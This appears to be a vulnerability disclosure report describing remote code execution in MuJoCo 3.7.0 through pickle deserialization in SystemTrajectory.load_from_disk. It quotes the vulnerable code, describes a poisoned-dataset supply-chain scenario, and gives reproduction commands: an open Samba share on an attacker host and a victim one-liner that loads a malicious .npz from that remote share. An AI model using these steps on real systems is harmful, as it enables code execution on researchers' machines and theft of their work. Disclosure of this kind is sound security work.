


# `MuJoCo` - Version `3.7.0` / Remote Code Execution (RCE) via Insecure Deserialization based on sink `numpy.load` and `path` argument (Supply Chain Compromise via `SystemTrajectory` Datasets)

* https://pypi.org/project/mujoco/
* https://github.com/google-deepmind/mujoco

## Introduction

**Below are one (1) way to reproduce RCE in `MuJoCo` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The `mujoco.sysid.SystemTrajectory.load_from_disk` method is vulnerable to insecure deserialization. The function utilizes `numpy.load` with `allow_pickle=True` to process trajectory archives. This configuration allows the deserialization of arbitrary Python objects embedded within the `.npz` file, specifically within signal mapping metadata fields. This vector facilitates a "Supply Chain" attack where malicious datasets can be distributed to compromise any researcher who attempts to load them for benchmarking or analysis.
### The vulnerable code in `mujoco/sysid/_src/trajectory.py`:

```python
122:   @classmethod
123:   def load_from_disk(
124:       cls,
125:       path: pathlib.Path,
...
129:     with np.load(path, allow_pickle=True) as npz: # <--- CRITICAL SINK
...
139:       if "control_signal_mapping" in npz:
140:         control_signal_mapping = npz["control_signal_mapping"].item() # <--- TRIGGER
```

## Technical Impact Analysis

### Project Purpose & Context

MuJoCo's System Identification (`sysid`) toolbox is a critical component for modeling complex robotic systems. The `SystemTrajectory` class is the primary data structure for storing and sharing simulation rollouts. In the robotics community, sharing these trajectories as "benchmark datasets" is a standard practice for validating the accuracy of different identification algorithms.

### Platform & Deployment Environment

The vulnerability affects all platforms supported by MuJoCo (Windows, Linux, macOS). However, it is particularly potent in Windows research environments where UNC path redirection can be used to fetch malicious datasets directly from remote attacker-controlled shares, bypassing local download requirements.


### Comprehensive Risk Assessment

The risk is classified as **CRITICAL**. The transition from a "data" file (`.npz`) to "code execution" breaks the security assumptions of research researchers who typically treat datasets as passive inputs. A single poisoned dataset distributed on a research portal can lead to widespread compromise of the robotics community's intellectual property and simulation infrastructure.


## Attack Scenario


### Who wants to exploit a particular vulnerability?

Adversaries targeting high-value robotics research, including state-sponsored groups or corporate spies looking to exfiltrate proprietary control logic or robot models developed using the MuJoCo framework.


### For what gain?

The primary gain is the theft of trade secrets related to robotic system parameters and control strategies. Additionally, attackers can gain persistent access to high-performance computing (HPC) clusters or workstation environments where MuJoCo is used for training and validation.


### In what way?

An attacker can upload "poisoned benchmarks" to popular research repositories or distribute them via collaborative platforms. By naming the dataset something enticing (e.g., "Ground_Truth_Humanoid_Walk_v2.npz"), the attacker ensures that target researchers will load the file into their MuJoCo environment, triggering the RCE payload during the initial loading phase.


# Reproduction steps

## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):

1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`
2. **Prepare the attack directory**:

```bash
mkdir ~/lab_attack
chmod 755 /home/kw0  # Allows Samba to access the HOME
chmod -R 777 ~/lab_attack
```

1. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:

```ini
[lab_share]
path = /home/kw0/lab_attack
read only = no
guest ok = yes
```

**Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate the `malicious_benchmark.npz` file directly in the shared path:

```bash
python exploit.py
```



## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Deserializer\PYPI-mujoco> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Deserializer\PYPI-mujoco>
```

1. Create a `.venv`, activate it, and install the latest updated version (`3.7.0`) of `MuJoCo` using `pip install mujoco`. 
2. Additionally, it is necessary to install `numpy`, `PyYAML`, `colorama`, `tabulate`, `scipy`, `jinja2`, `matplotlib` and `plotly` to create a complete testing environment: `pip install numpy PyYAML colorama tabulate scipy jinja2 matplotlib plotly`.
3. Enable the SMB share: `net use Z: \\192.168.1.90\lab_share /persistent:no`
4. And then launch the service to trigger the RCE:

```
python -c "import mujoco; from mujoco.sysid import SystemTrajectory; m=mujoco.MjModel.from_xml_string('<mujoco/>'); p=r'\\192.168.1.90\lab_share\malicious_benchmark.npz'; print(f'[*] Loading: {p}'); exec('try: SystemTrajectory.load_from_disk(p, m)\nexcept: pass')"
```

